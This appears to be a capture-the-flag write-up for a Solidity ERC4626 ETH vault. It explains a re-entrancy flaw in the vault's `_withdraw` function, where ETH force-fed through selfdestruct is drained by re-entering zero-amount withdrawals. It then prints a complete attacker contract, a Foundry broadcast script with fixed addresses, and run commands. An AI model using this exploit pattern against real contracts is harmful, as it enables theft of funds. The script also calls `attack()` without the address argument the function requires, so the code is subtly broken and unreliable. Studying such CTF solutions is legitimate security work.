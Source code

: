 ## Tool Used:
Foundry

## Solution:

* Contract's `ERC4626ETH.sol`, function - `withdraw` OR `redeem` is vulnerable to re-entrancy.
* Both function `withdraw` AND `redeem`, uses `_withdraw` as common function for performing withrawal/redeem operation.
* Inside `_withdraw` function, Its calculating excess ETH by (total_ETH_balance - totalSupply) and this excess ETH will be transfer to actual owner 
of the vault.
* To get an extra ETH in the contract, there are two ways. One way is using `deposit` OR `mint` function, which will mint `VCT` Token and also increasing
ETH balance of a vault. Other way is by forcefully transferring ETH to a vault by self-destroying some dummy contract which is having some ETH. This
will increase ETH balance in a vault but not VCT Token supply.
* To get some excess ETH to transfer back to owner of the vault, we need to use 2nd way i.e, forcefully transfering ETH by self-destroying contract.
* We can transfer 1 ETH forcefully. So now we have 2 ETH in a vault and 1 VCT Token(owned by original owner of vault).
* To make balance of vault to 0 ETH, so that we can capture the flag, we need to understand below snippet from `_withdraw` function.
```solidity
function _withdraw(
    address caller,
    address payable receiver,
    address _owner,
    uint256 amount
) internal virtual {
    if (caller != _owner) {
        _spendAllowance(_owner, caller, amount);
    }

    uint256 excessETH = totalAssets() - totalSupply();

    _burn(_owner, amount);

    Address.sendValue(receiver, amount);
    if (excessETH > 0) {
        Address.sendValue(payable(owner()), excessETH);
    }

    emit Withdraw(caller, receiver, _owner, amount, amount);
}
```
1. First check - `if (caller != _owner)`, since there is no way to get an approval from actual owner, we need to bypass this check by having 
`caller == _owner. Both vaules are attacker controlled.
2. `uint256 excessETH = totalAssets() - totalSupply();`- Since we have 2 ETH in vault and 1 VCT Token, we get `excessETH = 2 -1 = 1`. So we get extra ETH
to send it back to vault owner.
3. `_burn(_owner, amount);` - In order to bypass burn function, we need to pass `amount = 0` and `_owner = contract_address_of_attacker`. Hence `caller`
should also be an address of the attacker's contract. This `_burn` function will not block us when amount = 0.
4. `Address.sendValue(receiver, amount);` - Since amount is zero, it will send 0 ETH to reciever, As `Address.sendValue()` function is performing `call`
on provided address, we get an external call to receiver, which we can make use to reneter the vault. So this `receiver` address must be attacker 
controlled contract address, which will let us use `fallback` function when transfering ETH using `call` function.
5. When excessETH > 0, it will transfer excessETH to vault owner, which is decrementing balance of vault in ETH.
```
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
6. After step 4, we will accept the 0 ETH transfer from vault in `fallback` function of attackers contract. Which will keep count on the number of times 
we need to call `withdraw` function to transfer all 2 ETH from contract. In this case it need to call one more time. Since during first `_withdraw` call,
transfer of 1st ETH is stored inside call stack. In second call of `withdraw` from fallback function, it will store 2nd ETH transfer inside call stack.
After this, no need to re-enter `withdraw` function. Once it will execute, all 2 ETH are sent to vault owner.
7. Once balance of vault is zero, we can call `captureTheFlag` function with attacker address.

### Exploit contract (For On-Chain)
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";

interface IVault {
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) external returns (bool);
    
    function withdraw(
        uint256 assets,
        address receiver,
        address owner
    ) external returns (uint256);

    function deposit(uint256 assets, address receiver) external payable returns (uint256);

    function captureTheFlag(address newFlagHolder) external;

    function flagHolder() external returns (address);
}

contract SelfDestructable {
    constructor() public payable {}
    function destruct(address to) public {
        selfdestruct(payable(to));
    }
}

contract Attacker {        
    IVault vault;
    uint cnt = 0;

    constructor(address victim) public payable {
        vault = IVault(victim);
    }
    fallback() external payable {
        if (msg.value == 0) {
            cnt += 1;
        }
        if (cnt <= 1) {
            vault.withdraw(0 ether, address(this), address(this));
        }
    }

    function attack(address newFlagHolder) public {
        SelfDestructable d = new SelfDestructable{value: 1 ether}();
        d.destruct(address(vault));

        vault.withdraw(0 ether, address(this), address(this));
        vault.captureTheFlag(newFlagHolder);
    }
}

contract CTFScript is Script {
    function setUp() public {}

    function run() public {
        vm.startBroadcast();
        address victim = 0x8043e6836416d13095567ac645be7C629715885c;
        address attacker_eoa = 0xF5BED21BD285CBe352737F686766cCC19BeE7acC;
        console.log("Balance before victim:", victim.balance);
        console.log("Balance before attacker EOA:", attacker_eoa.balance);
        Attacker attacker = new Attacker{value: 1 ether}(victim);
        console.log("Balance before attacker:", address(attacker).balance);
        
        attacker.attack();

        console.log("Balance after victim:", victim.balance);
        console.log("Balance after attacker EOA:", attacker_eoa.balance);
        console.log("Balance after attacker:", address(attacker).balance);
    }
}
```
### Command to run - on-chain:
`forge script script/CTF.s.sol:CTFScript --rpc-url $rpc --private-key $pk --broadcast -vvvv`

### Command to run - fork environment: 
`forge test -c ./test/CTF.t.sol --fork-url $rpc --etherscan-api-key $ETHERSCAN_API -vvvv`
